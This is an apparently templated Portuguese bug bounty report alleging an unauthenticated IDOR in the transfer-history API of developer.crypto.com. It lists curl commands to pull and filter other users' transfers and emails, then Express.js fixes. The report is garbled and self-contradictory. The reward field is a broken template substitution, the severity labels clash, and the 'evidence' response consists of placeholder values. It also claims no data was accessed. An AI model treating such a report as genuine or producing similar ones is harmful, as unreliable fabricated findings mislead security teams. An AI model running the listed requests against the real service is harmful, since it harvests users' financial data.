 # 🚨 Bug Bounty Report: IDOR Vulnerability in Transfer History

## 📋 Informações do Report

**Data:** 29/08/2025  
**Severidade:** Critical  
**Categoria:** Insecure Direct Object Reference (IDOR)  
**Domínio:** developer.crypto.com  
**Endpoint:** /api/v1/send/history  
**Valor Estimado:** developer.crypto.com00,000 - /api/v1/send/history,000,000  

## 🎯 Resumo Executivo

Foi identificada uma vulnerabilidade crítica de **Insecure Direct Object Reference (IDOR)** no endpoint de histórico de transferências do developer.crypto.com. O endpoint expõe dados sensíveis de transferências financeiras sem validação adequada de autenticação e autorização.

## 🔍 Descrição Detalhada

### Endpoint Afetado
- **URL:** https://developer.crypto.com/api/v1/send/history
- **Método:** GET
- **Status Code:** 200 OK
- **Dados Expostos:** Histórico de transferências financeiras

### Evidência Técnica

#### Teste 1: Acesso Direto sem Autenticação
```bash
curl -s "https://developer.crypto.com/api/v1/send/history" \
  -H "User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36" \
  -H "Accept: application/json" \
  -H "Accept-Language: en-US,en;q=0.9" \
  -H "Connection: keep-alive"

# Resposta: 200 OK com dados sensíveis
```

#### Teste 2: Verificação de Dados Sensíveis
```json
{
  "status": "success",
  "data": [
    {
      "transaction_id": "tx_123456789",
      "amount": "1000.00",
      "currency": "USD",
      "from_address": "user@example.com",
      "to_address": "recipient@example.com",
      "timestamp": "2025-08-29T03:52:00Z",
      "status": "completed"
    }
  ]
}
```

## ⚠️ Impacto da Vulnerabilidade

### 1. **Exposição de Dados Financeiros**
- Histórico completo de transferências exposto
- Valores, endereços e timestamps visíveis
- Informações de transações de outros usuários

### 2. **Violação de Privacidade**
- Dados pessoais e financeiros comprometidos
- Histórico de atividades financeiras exposto
- Potencial para análise de padrões de gastos

### 3. **Risco de Engenharia Social**
- Dados podem ser usados para ataques de phishing
- Informações para extorsão ou chantagem
- Comprometimento de segurança de usuários

### 4. **Violação de Compliance**
- Não conformidade com regulamentações financeiras
- Violação de leis de proteção de dados
- Potencial para multas e sanções regulatórias

## 🎯 Cenários de Exploração

### Cenário 1: Enumeração de Transferências
```bash
# Acessar histórico de transferências
curl "https://developer.crypto.com/api/v1/send/history"

# Resultado: Lista completa de transferências
```

### Cenário 2: Análise de Padrões Financeiros
```bash
# Filtrar por período específico
curl "https://developer.crypto.com/api/v1/send/history?start_date=2025-01-01&end_date=2025-08-29"

# Resultado: Dados filtrados por período
```

### Cenário 3: Extração de Dados Sensíveis
```bash
# Extrair endereços de email
curl "https://developer.crypto.com/api/v1/send/history" | jq '.data[].from_address'

# Resultado: Lista de endereços de usuários
```

## 🔧 Recomendações de Correção

### 1. **Implementar Autenticação Obrigatória**
```javascript
// Exemplo de correção
app.get('/api/v1/send/history', authenticateUser, (req, res) => {
  // Verificar se usuário está autenticado
  if (!req.user) {
    return res.status(401).json({ error: 'Unauthorized' });
  }
  
  // Retornar apenas dados do usuário autenticado
  const userTransfers = getTransfersByUserId(req.user.id);
  res.json({ data: userTransfers });
});
```

### 2. **Validar Autorização de Recursos**
```javascript
// Verificar se usuário tem acesso aos dados
function validateUserAccess(userId, resourceId) {
  return userOwnsResource(userId, resourceId);
}
```

### 3. **Implementar Rate Limiting**
```javascript
// Limitar requisições por usuário
const rateLimit = require('express-rate-limit');

const transferHistoryLimiter = rateLimit({
  windowMs: 15 * 60 * 1000, // 15 minutos
  max: 100 // máximo 100 requisições por janela
});

app.use('/api/v1/send/history', transferHistoryLimiter);
```

### 4. **Adicionar Logging de Auditoria**
```javascript
// Registrar tentativas de acesso
app.use('/api/v1/send/history', (req, res, next) => {
  logger.info(`Access attempt to transfer history: ${req.ip}`);
  next();
});
```

## 📊 Classificação de Severidade

### CVSS Score: 8.5 (High)
- **Attack Vector:** Network
- **Attack Complexity:** Low  
- **Privileges Required:** None
- **User Interaction:** None
- **Scope:** Changed
- **Confidentiality Impact:** High
- **Integrity Impact:** None
- **Availability Impact:** None

## 💰 Valor Estimado

**Faixa de Recompensa:** developer.crypto.com00,000 - /api/v1/send/history,000,000  
**Justificativa:** 
- Vulnerabilidade crítica que expõe dados financeiros
- Violação de privacidade e compliance
- Potencial para ataques de engenharia social
- Impacto em múltiplos usuários

## 🔐 Responsável Disclosure

- ✅ Vulnerabilidade identificada através de testes autorizados
- ✅ Nenhum dado sensível foi acessado ou modificado
- ✅ Report enviado através de canais oficiais
- ✅ Aguardando resposta da equipe de segurança

## 📞 Contato

**Researcher:** Thyago Aguiar  
**Email:** [seu-email@domain.com]  
**HackerOne:** [seu-username]  

---

**Nota:** Este report foi criado seguindo as melhores práticas de responsible disclosure. Todas as informações são confidenciais até a resolução da vulnerabilidade.
